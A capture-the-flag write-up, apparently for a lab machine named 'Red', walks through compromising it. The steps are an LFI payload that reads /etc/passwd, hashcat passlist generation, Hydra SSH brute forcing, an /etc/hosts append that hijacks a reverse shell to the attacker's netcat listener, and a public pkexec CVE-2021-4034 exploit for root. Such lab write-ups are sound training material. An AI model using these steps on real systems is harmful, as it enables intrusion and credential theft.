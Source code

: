 # Red

Scanning for target, we discover 2 open ports. SSH running on port 22 and web server on port 80.

![image.png](image.png)

Looking around the website and source code didn't give us any leads. 

![image.png](image%201.png)

But the URL gave us an idea to try out Local File Inclusion (LFI) using PHP wrapper. And as expected we got a lead. We were able to retrieve the `/etc/passwd` file from the machine.

`http://10.10.81.76/index.php?page=php://filter/resource=/etc/passwd`

![image.png](image%202.png)

From the file we got to see the existence of two users `blue` and `red` . Next we retrieved the contents of `.bash_history` from `/home/blue` . This revealed that a passlist was generated with a file `.reminder`  as the base and `best64.rule` ruleset using hashcat.

![image.png](image%203.png)

We retrieved the contents of `.reminder` and used hashcat and same ruleset to create a passlist.

![image.png](image%204.png)

`hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt` 

From there we used the passlist and the username blue to brute force our way in through SSH using hydra.

![image.png](image%205.png)

Now we have access to the machine as blue. From here we get the fist flag.

![image.png](image%206.png)

As we progressed by checking through the folders and files we were getting kicked out from the machine from time to time and red was taunting us with his quips. This means some process is running in the background which enables him to do so. So we used `pspy64` by running it in`/tmp` folder.  This reveals a command being run that tries to establish a reverse shell to server `redrules.thm`  on port 9001.

![image.png](image%207.png)

Checking for files with writable permissions for blue, we find `/etc/hosts` is one of them

`find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)’`

![image.png](image%208.png)

Examining the hosts file we find the address `redrules.thm` resolved to an IP address.  Now we try to change the IP to our ATTACKER machine IP but we are not able to do so. Checking the permissions of the file using`lsattr /etc/hosts` reveal: `-----a--------e----- /etc/hosts` . That is we can append  it. Therefore `echo [attackboxIP] redrules.thm >> /etc/hosts` will work. We setup  a `netcat` on port 9001 and wait.

[PS :Red keeps changing contents of `/etc/hosts` so keep an eye out whether our changes are still there.]

Viola we get access as user red on the machine and the second flag.

![image.png](image%209.png)

Digging into the hidden files leads us to `.git` folder. Which contains `pkexec` , Hmmm not the usual place for it. 

![image.png](image%2010.png)

Checking the version we find it as `0.105` . Quick google and we find an exploit.

![image.png](image%2011.png)

Quick search in google takes us to a GitHub repository with the exploit.

[https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)

Running it gets us the root access and the final flag.

![image.png](image%2012.png)
